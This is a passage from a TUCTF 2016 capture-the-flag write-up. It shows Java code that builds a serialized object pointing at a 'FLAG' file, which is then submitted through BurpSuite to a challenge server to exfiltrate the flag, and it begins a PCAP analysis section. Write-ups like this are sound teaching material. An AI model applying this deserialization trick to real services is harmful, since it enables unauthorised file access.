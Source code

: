 {% highlight Java %}
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;

public class Lucky {
    public static void main(String[] args) {
        OSFile f = new UnixFile();
        f.file = "FLAG";
        try{
            FileOutputStream fout = new FileOutputStream("uglyObj.ser");
            ObjectOutputStream oos = new ObjectOutputStream(fout);   
            oos.writeObject(f);
            oos.close();
        }catch(Exception ex){
        ex.printStackTrace();
        }
    }
}

abstract class OSFile implements Serializable {
    String file = "";
    abstract String getFileName();
}

class WindowsFile extends OSFile  {
    public String getFileName() {
        //Windows filenames are case-insensitive
        return file.toLowerCase();
    }
}

class UnixFile extends OSFile {
    public String getFileName() {
        //Unix filenames are case-sensitive, don't change
        return file;
    }
}
{% endhighlight %}

We create an OSFile object with the type UnixFile and write it to non-volatile memory. Afterwards we use BurpSuite to generate our request. It has a neat feature where you can basically right-click the request and load content from file. This is the request which got us the flag for 150 points.

![BurpSuite import file (serialized Java Object) into Request]({{ site.baseurl }}/assets/2016-05-29-tuctf-2016-writeups/burp_suite_serObj1.png)

## Misc - The Nack

This was a network analysis challenge. You had to download a PCAP file and find out what happens there (respectively find the flag). So what do you do getting your hands on a PCAP - you open it with Wireshark. The network trace consists of a lot of TCP packets which transport some data, at first glance this is binary data with some ASCII in between. A closer look at the first packets already reveal the transmitted file. Consider the first packet in the following screenshot.
